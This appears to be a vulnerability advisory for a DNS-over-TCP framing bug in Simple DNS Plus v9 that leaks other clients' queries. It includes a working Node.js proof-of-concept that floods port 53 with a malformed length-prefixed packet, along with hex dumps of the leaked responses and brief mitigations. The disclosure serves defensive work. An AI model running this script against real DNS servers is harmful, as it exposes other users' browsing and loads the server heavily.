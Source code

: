 ```yaml
---
title: TCP framing bug allows cross-client request leakage in Simple DNS Plus
date: 2025-09-15
---
```

# Introduction

Improper handling of DNS over TCP in Simple DNS Plus v9 allows a remote attacker with querying access to the DNS server to cause the server to return request payloads from other clients. This happens when the TCP length prefix is malformed (len ≠ actual packet len), and due to a concurrency/buffering issue, even when the lengths match. A length prefix that is smaller than the actual packet size increases information leakage. In summary, this vulnerability allows an attacker to see DNS queries of other clients’ (CWE-125 / CWE-130 / CWE-444).

# Affected components

- Product: `Simple DNS Plus` v9.1.116
- Feature: DNS over TCP
- Host device: Windows Server 2019

# Reproduction

This was done on a device running macOS 26 connected to the network with a Simple DNS resolver forced. DNS requests to other resolvers were blocked by blocking port 53 outbound.

The following script was run, and server responses were logged to a text file.

```bash
node script.js
# in another terminal
tail -f log.txt
```

```jsx
import dns from "dns/promises"
import net from "net";
import fs from "fs";
// long dummy packet - real len doesn't matter
const data = new Uint8Array([
	0x00, 0x00, 0xFC, 0x10, 0x1A, 0x8A, 0x32, 0x01, 0x86, 0x56, 0xCD, 0xF5,
	0x94, 0x87, 0x08, 0x00, 0x45, 0x00, 0x00, 0x00, 0x00, 0x5E, 0xAA, 0x40,
	0x00, 0x00, 0x40, 0x11, 0x5E, 0x3B, 0x0A, 0x78, 0x49, 0x07, 0x0A, 0x78,
	0x00, 0x20, 0x14, 0x1D, 0xC8, 0x76, 0x00, 0x35, 0x00, 0x4A, 0xAC, 0x84,
	0x83, 0xA1, 0x01, 0x00, 0x00, 0x01, 0x00, 0x30, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x24, 0x70, 0x72, 0x6F, 0x64, 0x2D, 0x74, 0x65, 0x73, 0x74,
	0x00, 0x40, 0x2D, 0x77, 0x68, 0x61, 0x74, 0x2D, 0x74, 0x68, 0x69, 0x73,
	0x2D, 0x69, 0x73, 0x2D, 0x61, 0x2D, 0x00, 0x50, 0x74, 0x65, 0x73, 0x74,
	0x2D, 0x64, 0x6F, 0x6D, 0x61, 0x69, 0x6E, 0x07, 0x65, 0x78, 0x61, 0x6D,
	0x00, 0x60, 0x70, 0x6C, 0x65, 0x03, 0x6F, 0x72, 0x67, 0x00, 0x00, 0x01,
	0x00, 0x01
]);

// tcp headers
const length = Buffer.alloc(2);
length.writeUInt16BE(data.length);
const packet = Buffer.concat([length, Buffer.from(data)]);
// returned the DHCP simple dns servers - 10.9.0.75
const dnsServers = dns.getServers()
// cross testing
for (const server of dnsServers) {
  let l = 0
  setInterval(() => {
    const socket = new net.Socket();
    socket.on('error', () => socket.destroy());
    socket.on('timeout', () => socket.destroy());
    socket.on('data', (data) => fs.promises.appendFile('log.txt', data.toString("hex") + "\n"));
    socket.connect(53, server,  () => {
     socket.write(packet);
      l++
      console.log("attempt (m) ", l);
    });
  },0);
}

```

The packet was sent 28,700 times (40 seconds), and DNS requests were logged. These requests were confirmed not to have been made from the test machine. A 2nd machine was tried with domains that are known not to exist, but due to the heavy traffic, the machine’s queries weren’t logged. The following domains were confirmed to have never been queried by the test machine.

```

cbef81800001000100000000047061706905686d68636f03636f6d0000410001c00c000500010000002800180771793467383338017808696e636170646e73036e657400
348d818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
eb66818000010006000000000e656e637279707465642d74626e30076773746174696303636f6d0000010001c00c000100010000000c00048efb6f66c00c000100010000000c00048efb6f8ac00c000100010000000c00048efb6f8bc00c000100010000000c00048efb6f65c00c000100010000000c00048efb6f71c00c000100010000000c00048efb6f64
b9b9818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
bd83818200010000000000000b6d61746368616473727672077969656c646d6f03636f6d0000010001
1c9181820001000000000000046d61696c06676f6f676c6503636f6d0000010001
f1a281820001000000000000046d61696c06676f6f676c6503636f6d0000010001
ce1b818000010004000000000465646765096d6963726f736f667403636f6d0000010001c00c000500010000042b002a12656467652d6d6963726f736f66742d636f6d0761782d303030320961782d6d7365646765036e657400c030000500010000002000170761782d303030320c61782d64632d6d7365646765c055c0660001000100000023000496ab1d0bc0660001000100000023000496ab1e0b
8fc781820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001
b56481820001000000000000146f7074696d697a6174696f6e67756964652d70610a676f6f676c656170697303636f6d0000410001

```

![](01-img1.jpg)

These are malformed DNS queries by other machines on the network, and pcap logs confirm that the test machine did not look these queries up.

# Mitigations

- Validating packet length directly instead of relying on the header
- Make sure each connection has an individual buffer
